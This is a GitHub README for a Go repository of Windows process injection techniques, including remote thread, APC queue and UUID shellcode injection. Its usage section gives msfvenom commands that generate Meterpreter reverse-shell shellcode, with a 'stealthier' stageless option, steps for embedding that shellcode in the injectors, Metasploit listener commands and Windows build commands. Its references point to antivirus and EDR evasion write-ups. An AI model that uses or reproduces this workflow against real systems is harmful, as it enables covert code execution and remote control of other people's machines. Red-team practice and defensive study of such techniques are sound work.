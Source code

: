 # go-inject

Process injection techniques written in Go.

## Examples

* [Classic virtual alloc](examples/x64/valloc/valloc.go)
* [Hook detection](examples/x64/detect-hooks/detect-hooks.go)
* [Heap](examples/x64/heap/heap.go)
* [Remote Thread Injection](examples/x64/remote-thread/remote-thread.go)
* [APC Queue Code Injection](examples/x64/queue-user-apc/queue.go)
* [UUID Injection](examples/x64/uuid/uuid.go)

## Usage

Use msfvenom to generate shellcode:
```bash
# Option 1: Testing with calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f hex

# Option 2: Reverse tcp stager.
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444

# Option 3: Stageless payload - stealthier.
msfvenom -p windows/x64/meterpreter_reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```

Place payload string from above command within one of the example .go files replacing the content of the `payload` variable. If using uuid example, use [shellcode-to-uuids](examples/shellcode-to-uuids.go) to convert to payload.

Start listener:

```bash
use payload/windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
to_handler
```

## Build

Linux:
```bash
env GOOS=windows GOARCH=amd64 go build
```

Windows:
```bash
$env:GOOS="windows"
go build example.go
```

## References

* https://medium.com/@justen.walker/breaking-all-the-rules-using-go-to-call-windows-api-2cbfd8c79724
* https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
* https://github.com/brimstone/go-shellcode
* https://github.com/sysdream/hershell
* https://github.com/yoda66/MalwareDevTalk
* https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa
* https://github.com/Adepts-Of-0xCC/VBA-macro-experiments/blob/main/EDRHookDetector.vba
* https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
* https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/